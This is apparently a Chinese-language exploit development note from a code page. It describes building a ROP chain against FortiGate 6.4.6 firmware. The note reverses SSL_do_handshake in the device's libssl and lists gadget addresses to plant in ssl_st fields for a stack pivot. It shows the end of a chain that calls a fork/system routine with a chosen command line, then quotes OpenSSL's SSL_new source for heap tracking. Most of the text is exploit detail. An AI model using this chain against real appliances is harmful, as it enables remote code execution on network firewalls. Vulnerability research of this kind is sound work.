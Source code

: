 通过逆向`/home/sysirq/Work/Fortinet/FortiGate_6_4_6_81E/rootfs/unpack/lib/libssl.so.1.1 `中的`SSL_do_handshake`函数

```
.text:0001E39E                 LDR             R3, [R4,#0x18]
.text:0001E3A0                 MOV             R0, R4
.text:0001E3A2                 BLX             R3
```

发现 R4,R0 均指向struct ssl_st的开头




我们需要通过r0 ，r4 将栈移动到我们的控制的gadget中去，

```
ssl->handshake_func（offset:0x18）  设置为 (0x011f96fe : mov r7, r0 ; mov.w r0, #0x400 ; ldr r2, [r4] ; mov sb, r1 ; mov r8, r3 ; blx r2)
ssl->version				(offset:0x00)  设置为 (0x00921326 : mov sp, r7 ; pop.w {r4, r5, r6, r7, r8, sb, sl, fp, lr} ; add sp, #4 ; bx lr)
ssl->new_session		(offset:0x20)  设置为 (0x005712ee : sub sp, #0x1a8 ; pop {r4, pc})
```

这样，当执行ssl->handshake_func 会执行 ssl->version 进而执行 ssl->new_session。最后跳转到我们控制的栈上去



构造的ropchain的最后一部分

```
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
.....................
0x001cb480 : pop {pc}
0x0003649c : pop {r3, pc}
0x001cb480 : FUNC_FORK_SYSTEM
0x00037caa : add r0, sp, #0x24 ; blx r3
sp+24			 : cmdline
......................
```

# 如何跟踪各种数据结构的分配

对于SSL结构：

```c
SSL *SSL_new(SSL_CTX *ctx)
{
    SSL *s;

    if (ctx == NULL) {
        SSLerr(SSL_F_SSL_NEW, SSL_R_NULL_SSL_CTX);
        return (NULL);
    }
    if (ctx->method == NULL) {
        SSLerr(SSL_F_SSL_NEW, SSL_R_SSL_CTX_HAS_NO_DEFAULT_SSL_VERSION);
        return (NULL);
    }

    s = OPENSSL_zalloc(sizeof(*s));
```
